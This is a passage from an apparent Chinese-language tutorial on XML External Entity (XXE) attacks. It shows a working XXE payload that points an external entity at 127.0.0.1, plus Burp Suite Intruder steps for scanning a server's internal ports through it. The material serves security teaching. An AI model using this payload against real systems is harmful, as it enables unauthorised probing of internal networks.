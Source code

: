 > 若关闭则显示 `Connection refused`
>
> 开启则每种服务反馈的信息不同

http:// 协议漏洞验证

```
http://hello.com
```

## 5 利用 BurpStuite 对目标服务器进行端口扫描

开启拦截，在 HackBar 提交端口扫描 payload

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

将截取的请求包发送到 `Intruder` ，清除 `payload` 位置

选中端口号添加 `payload` 位置

```
http://127.0.0.1:§80§
```

配置 `payload`

`payload` 类型选择 `数值` 

![payload 类型选择 数值](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/payload%20%E7%B1%BB%E5%9E%8B%E9%80%89%E6%8B%A9%20%E6%95%B0%E5%80%BC.png)

选择端口扫描范围

![选择端口扫描范围](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E9%80%89%E6%8B%A9%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E8%8C%83%E5%9B%B4.png)

取消编码

![取消编码](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E5%8F%96%E6%B6%88%E7%BC%96%E7%A0%81.png)

检索含有 `Connection refused` 的响应包

> 若有 `Connection refused` ，则端口未开放

![检索含有 Connection refused 的响应包](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E6%A3%80%E7%B4%A2%E5%90%AB%E6%9C%89%20Connection%20refused%20%E7%9A%84%E5%93%8D%E5%BA%94%E5%8C%85.png)

开始攻击后，未检测出 `Connection refused` 的端口就是开放的端口

![开始攻击后，未检测出 Connection refused 的端口就是开放的端口](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E5%BC%80%E5%A7%8B%E6%94%BB%E5%87%BB%E5%90%8E%EF%BC%8C%E6%9C%AA%E6%A3%80%E6%B5%8B%E5%87%BA%20Connection%20refused%20%E7%9A%84%E7%AB%AF%E5%8F%A3%E5%B0%B1%E6%98%AF%E5%BC%80%E6%94%BE%E7%9A%84%E7%AB%AF%E5%8F%A3.png)
